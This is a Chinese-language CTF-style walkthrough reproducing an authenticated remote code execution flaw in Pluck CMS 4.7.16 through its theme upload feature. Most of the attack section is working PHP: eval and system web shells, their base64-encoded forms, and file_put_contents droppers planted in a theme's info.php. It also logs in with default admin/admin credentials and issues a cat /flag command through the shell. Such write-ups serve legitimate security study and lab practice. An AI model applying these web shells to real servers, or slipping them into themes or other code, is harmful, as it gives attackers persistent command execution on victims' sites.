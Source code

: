 ## 1. 漏洞介绍
Pluck是一套使用PHP语言开发的内容管理系统（CMS）。
Pluck CMS 4.7.16 版本存在代码问题漏洞，该漏洞源于Pluck CMS 4.7.16版本存在远程 shell 上传执行漏洞。
在 Pluck 4.7.16 中，管理员用户可以在 /admin.php?action=themeinstall中使用主题上传功能来执行远程代码执行。也就是上传的主题中的 info.php 会被执行，所以可以在 info.php 中实现服务器写马或RCE等的操作。
## 2. 影响版本
Pluck CMS 4.7.16版本
## 3. 漏洞复现
开启环境后利用admin/admin登录，找到主题上传界面。
GitHub 下载主题 [redline-theme](https://github.com/billcreswell/redline-theme/archive/refs/heads/master.zip)，解压后修改 info.php。
### 3.1. info 写马
```php
<?php @eval($_POST["shell"]) ?>
/*base64 编码后*/
PD9waHAgQGV2YWwoJF9QT1NUWyJzaGVsbCJdKSA/Pg==
```

- 主题文件修改
```php
<?php
  file_put_contents('shell.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWyJzaGVsbCJdKSA/Pg=='));
?>
```

- 主题修改后重新压缩【zip格式】上传，上传成功后切换主题。
![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281650169.png)

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281651326.png)

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281651757.png)

![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281652559.png)

### 3.2. info.php — RCE
```php
<?php system($_GET[cmd]);?>
PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+
```

- 主题修改
```php
<?php
file_put_contents('shell.php',base64_decode('PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+'));
?>
```

- 主题上传安装同理
- 获取flag
```php
http://eci-2zeehs3ye28jdhx2afbx.cloudeci1.ichunqiu.com/shell.php?cmd=cat /flag
```

![5.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281652363.png)

